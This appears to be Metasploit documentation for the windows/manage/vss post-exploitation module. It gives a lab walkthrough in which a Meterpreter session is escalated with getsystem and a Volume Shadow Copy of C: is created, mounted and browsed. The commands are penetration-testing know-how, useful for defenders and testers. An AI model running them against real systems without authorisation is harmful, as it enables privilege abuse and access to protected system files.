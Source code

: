 ## Overview
This module will perform management actions for Volume Shadow Copies on the system. This is based on the VSSOwn Script
originally posted by Tim Tomes and Mark Baggett. The session must be running with Administrative privileges and outside
of UAC.

## Options

### DEVICE

*Only applicable with the VSS_MOUNT action.*

DeviceObject of the shadow copy to mount. This should begin with `\\?\GLOBALROOT\Device` and **must end with a slash (`\`)**.

### PATH

*Only applicable with the VSS_MOUNT and VSS_UNMOUNT actions.*

Path to use for mounting the shadow copy.

### SIZE

*Only applicable with the VSS_SET_MAX_STORAGE_SIZE action.*

Size in bytes to set for max storage.

### VOLUME

*Only applicable with the VSS_CREATE action.*

Volume to make a copy of.

## Scenarios

### Create And Access A Shadow Copy

First, ensure the session is running with elevated privileges and that UAC is not restricting it.

```
msf6 post(windows/manage/vss) > 
[*] Sending stage (200262 bytes) to 192.168.159.30
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.30:62600) at 2021-01-04 12:09:59 -0500

msf6 post(windows/manage/vss) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > getuid
Server username: DESKTOP-RTCRBEV\Spencer McIntyre
meterpreter > sysinfo 
Computer        : DESKTOP-RTCRBEV
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getsystem 
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > background 
[*] Backgrounding session 2...
```

Next, use the VSS module to the storage information and then create a shadow copy of the `C:` drive (the default
value).

```
msf6 post(windows/manage/vss) > vss_get_info 

[*] Volume Shadow Copy service is running.
[*] Software Shadow Copy service not running. Starting it now...
[+] Software Shadow Copy started successfully.
[+] Shadow Copy Storage Data
========================

  Field           Value
  -----           -----
  AllocatedSpace  
  MaxSpace        
  UsedSpace       

[*] Post module execution completed
msf6 post(windows/manage/vss) > set ACTION VSS_CREATE 
ACTION => VSS_CREATE
msf6 post(windows/manage/vss) > run

[*] Volume Shadow Copy service is running.
[*] Software Shadow Copy service is running.
[*] ShadowCopy created successfully
[+] Shadow Copy "{A38B3122-4D7A-4B93-B31B-D1454C2FED4D}" created!
[*] Post module execution completed
msf6 post(windows/manage/vss) >
```

After creating the shadow copy, list the copies to get the `DeviceObject` path and mount it.

```
msf6 post(windows/manage/vss) > vss_list_copies 

[*] Volume Shadow Copy service is running.
[*] Software Shadow Copy service is running.
[*] Getting data for Shadow Copy {A38B3122-4D7A-4B93-B31B-D1454C2FED4D} (This may take a minute)
[+] Shadow Copy Data
================

  Field                Value
  -----                -----
  ClientAccessible     TRUE
  Count                1
  DeviceObject         \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
  Differential         TRUE
  ExposedLocally       FALSE
  ExposedName          
  ExposedRemotely      FALSE
  HardwareAssisted     FALSE
  ID                   "{A38B3122-4D7A-4B93-B31B-D1454C2FED4D}"
  Imported             FALSE
  NoAutoRelease        TRUE
  NoWriters            TRUE
  NotSurfaced          NotSurfacedFALSE
  OriginiatingMachine  DESKTOP-RTCRBEV
  Persistent           TRUE
  Plex                 FALSE
  ProviderID           {B5946137-7B9F-4925-AF80-51ABD60B20D5}
  ServiceMachine       DESKTOP-RTCRBEV
  SetID                {F608494B-C0DB-4462-81B0-12D06A2DD3EB}
  State                12
  Transportable        FALSE
  VolumeName           \\?\Volume{a5e97ffa-0120-4d03-ad47-18a94e9bfb2b}\

[*] Post module execution completed
msf6 post(windows/manage/vss) > set ACTION VSS_MOUNT 
ACTION => VSS_MOUNT
msf6 post(windows/manage/vss) > set DEVICE \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\
DEVICE => \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
msf6 post(windows/manage/vss) > run

[*] Volume Shadow Copy service is running.
[*] Software Shadow Copy service is running.
[*] Creating the symlink...
[+] Mounted successfully
[*] Post module execution completed
msf6 post(windows/manage/vss) >
```

Finally, interact with the session to access the mounted directory before unmounting it.

```
msf6 post(windows/manage/vss) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > dir ShadowCopy 
Listing: ShadowCopy
===================

Mode              Size        Type  Last modified              Name
----              ----        ----  -------------              ----
40777/rwxrwxrwx   0           dir   2019-03-19 00:52:43 -0400  $Recycle.Bin
40777/rwxrwxrwx   0           dir   2020-03-31 17:40:05 -0400  Documents and Settings
40777/rwxrwxrwx   0           dir   2019-03-19 00:52:43 -0400  PerfLogs
40555/r-xr-xr-x   4096        dir   2019-03-19 00:52:43 -0400  Program Files
40555/r-xr-xr-x   4096        dir   2019-03-19 00:52:44 -0400  Program Files (x86)
40777/rwxrwxrwx   0           dir   2019-03-19 00:52:44 -0400  ProgramData
40777/rwxrwxrwx   0           dir   2020-03-31 20:39:26 -0400  Recovery
40777/rwxrwxrwx   4096        dir   2020-03-31 20:38:24 -0400  System Volume Information
40555/r-xr-xr-x   4096        dir   2019-03-19 00:37:22 -0400  Users
40777/rwxrwxrwx   16384       dir   2019-03-19 00:37:22 -0400  Windows
100666/rw-rw-rw-  1476395008  fil   2020-03-31 20:38:25 -0400  pagefile.sys
100666/rw-rw-rw-  16777216    fil   2020-03-31 20:38:25 -0400  swapfile.sys

meterpreter > background 
[*] Backgrounding session 2...
msf6 post(windows/manage/vss) > vss_unmount 

[*] Volume Shadow Copy service is running.
[*] Software Shadow Copy service is running.
[*] Deleting the symlink...
[*] Post module execution completed
msf6 post(windows/manage/vss) >
```
